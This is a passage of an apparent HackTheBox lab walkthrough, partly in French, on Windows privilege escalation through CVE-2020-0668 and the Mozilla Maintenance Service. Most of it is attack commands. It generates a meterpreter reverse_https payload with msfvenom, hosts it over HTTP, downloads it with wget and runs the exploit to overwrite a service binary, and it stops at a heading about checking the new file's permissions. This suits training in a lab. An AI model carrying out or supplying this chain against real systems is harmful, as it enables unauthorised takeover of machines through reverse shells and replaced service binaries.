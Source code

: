 **Vérification des permissions sur le binaire**\
`icacls` confirme que nous avons uniquement **les permissions de lecture et d’exécution** sur ce binaire, comme indiqué par la ligne :\
`BUILTIN\Users:(I)(RX)` dans la sortie de la commande.
{% endhint %}

{% code fullWidth="true" %}
```cmd-session
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
{% endcode %}

<mark style="color:green;">**Generating Malicious Binary**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```
{% endcode %}

<mark style="color:green;">**Hosting the Malicious Binary**</mark>

```shell-session
mrroboteLiot_1@htb[/htb]$ $ python3 -m http.server 8080
```

<mark style="color:green;">**Downloading the Malicious Binary**</mark>

{% hint style="info" %}
For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.

We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.
{% endhint %}

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe
```
{% endcode %}

<mark style="color:green;">**Running the Exploit**</mark>

{% code fullWidth="true" %}
```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       
```
{% endcode %}

<mark style="color:green;">**Checking Permissions of New File**</mark>
